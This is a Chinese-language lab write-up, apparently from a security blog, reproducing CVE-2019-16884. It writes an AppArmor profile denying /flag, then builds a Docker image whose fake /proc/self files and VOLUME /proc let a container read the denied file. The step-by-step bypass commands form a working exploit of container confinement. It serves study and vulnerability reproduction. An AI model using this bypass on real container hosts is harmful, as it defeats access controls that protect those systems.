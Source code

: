 ```yaml
---
title: CVE-2019-16884
---
```


<center><h1>CVE-2019-16884</h1><h2>本文作者：一生热爱</h2><br><br></center>

---

## 一、简介

apparmor 可以让管理员通过程序的配置文件限制程序的功能，其本身作为一个内核模块集成在 Linux 内核中（可能发现 lsmod 里面并没有 apparmor，这是因为 lsmod 展示的是所有动态加载的内核模块，通过 `ls /sys/module/` 就可以看到所有的内核模块包括系统中内置的），因此其通过内核提供强访问控制。

CVE-2019-16884 可以使得用户绕过 apparmor 的一些策略进而可以实现一些提权操作。

```bash
cat /sys/module/apparmor/parameters/enabled       # 查看是否开启apparmor，返回为Y表示开启
sudo cat /sys/kernel/security/apparmor/profiles   # 查看加载的配置文件
```

## 二、构建实验环境

```bash
> docker run -it ssst0n3/docker_archive:CVE-2019-16884

ubuntu login: root
Password: root
```

## 三、漏洞复现

1、创建 apparmor 规则

```bash
> cat > /etc/apparmor.d/no_flag <<EOF

#include <tunables/global>
profile no_flag flags=(attach_disconnected,mediate_deleted) {
  #include <abstractions/base>
  file,
  deny /flag r,
}
EOF
```

2、创建一个 flag 文件

```bash
echo "Al1ex is comming" > /tmp/flag
```

3、应用规则

```bash
/sbin/apparmor_parser --replace --write-cache /etc/apparmor.d/no_flag
```

4、检测，启动一个正常镜像此时无权限读取/flag内容3

```bash
docker run --rm --security-opt "apparmor=no_flag" -v /tmp/flag:/flag busybox cat /flag
```

5、利用漏洞启用一个恶意镜像，可以读取/flag

```bash
> mkdir -p rootfs/proc/self/{attr,fd}
> touch rootfs/proc/self/{status,attr/exec}
> touch rootfs/proc/self/fd/{4,5}
> cat <<EOF > Dockerfile
FROM busybox
ADD rootfs /
VOLUME /proc
EOF
> docker build -t apparmor-bypass .
> docker run --rm --security-opt "apparmor=no_flag" -v /tmp/flag:/flag apparmor-bypass cat /flag
```

<img width="1200" src="/img/Snipaste_2022-07-07_21-13-36.png">

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年7月7日"
    }
  }
</script>